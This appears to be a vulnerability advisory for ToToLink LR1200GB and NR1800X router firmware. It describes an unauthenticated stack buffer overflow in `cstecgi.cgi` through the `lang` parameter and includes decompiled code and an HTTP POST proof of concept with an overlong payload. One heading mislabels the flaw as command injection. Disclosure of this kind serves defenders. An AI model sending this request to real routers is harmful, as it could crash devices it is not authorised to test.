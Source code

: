 # Buffer Overflow Vulnerability in `lang` and `HelpUrl_%s`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | ToToLink LR1200GB & NR1800X Router                           |
| Firmware Version     | **V9.1.0u.6619_B20230130** for LR1200GB and **V9.1.0u.6681_B20230703** for NR1800X |
| Vulnerability Type   | **Stack Buffer Overflow**                                    |
| Vulnerable Component | `cstecgi.cgi` (handling of `lang` and `HelpUrl_%s` parameters via `websGetVar` and `sprintf`) |
| Prerequisites        | Remote access to the device's web interface (no authentication required) |

2. Exploitation Path

```c
// cstecgi.cgi
int __fastcall sub_42F32C(int a1)
{
  ...
  _BYTE v7[128]; // [sp+18h] [-80h] BYREF
  memset(v7, 0, sizeof(v7));
  Var = websGetVar(a1, "lang", (int)"cn");
  v3 = websGetVar(a1, "langAutoFlag", (int)&word_436F38);
  nvram_set("preferred_lang", Var);
  nvram_set("auto_lang", v3);
  JsonConf = getJsonConf(0);
  if ( JsonConf )
  {
    sprintf(v7, "HelpUrl_%s", Var);
    v5 = websGetVar(JsonConf, v7, (int)&byte_439510);
    if ( *v5 )
    {
      memset(v7, 0, sizeof(v7));
      sprintf(v7, "http://%s", v5);
      ...
}
```

3. **Vulnerable Binaries:** `cstecgi.cgi`.
4. 0-Day Command Injection Exploitation Path: 
   - In `cstecgi.cgi`, at line 7, `Var = websGetVar(a1, "lang", (int)"cn")` receives data without any length check and is directly passed to line 14, `sprintf(v7, "HelpUrl_%s", Var)`, resulting in a buffer overflow vulnerability.
   - In `cstecgi.cgi`, at line 15, `v5 = websGetVar(JsonConf, v7, (int)&byte_439510)` receives data without any length check and is directly passed to line 19, `sprintf(v7, "http://%s", v5)`, resulting in a buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerabilities:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: curl/7.81.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Connection: close

lang=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&langAutoFlag=1
```
